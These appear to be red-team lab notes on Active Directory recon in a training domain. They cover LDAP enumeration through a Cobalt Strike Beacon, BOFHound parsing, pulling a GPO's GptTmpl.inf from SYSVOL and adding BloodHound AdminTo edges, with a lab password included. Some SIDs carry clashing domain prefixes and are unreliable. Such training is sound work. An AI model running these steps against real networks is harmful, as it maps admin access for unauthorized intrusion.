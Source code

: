- Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n

MATCH (n:GPO)
WHERE n.domain = "CONTOSO.ENCLAVE"
RETURN n

```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.enclave\SysVol\contoso.enclave\Policies\{0FF094F9-69ED-476D-8DCB-1820DE60A666}\Machine\Microsoft\Windows NT\SecEdit\

download \\contoso.enclave\SysVol\contoso.enclave\Policies\{0FF094F9-69ED-476D-8DCB-1820DE60A666}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.

![[Pasted image 20250714100312.png]]

> S-1-5-21-3926355307-1661546229-813047887-1106 is a member of S-1-5-32-544

```powershell
ldapsearch (objectSid=S-1-5-21-2958544638-1589230383-838459903-1605)
```

-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-1330904164-3792538338-293942156-2101'}) MATCH (y:Group{objectid:'S-1-5-21-1330904164-3792538338-293942156-2103'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-2601'})
MATCH (y:Group{objectid:'S-1-5-21-1330904164-3792538338-293942156-2103'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.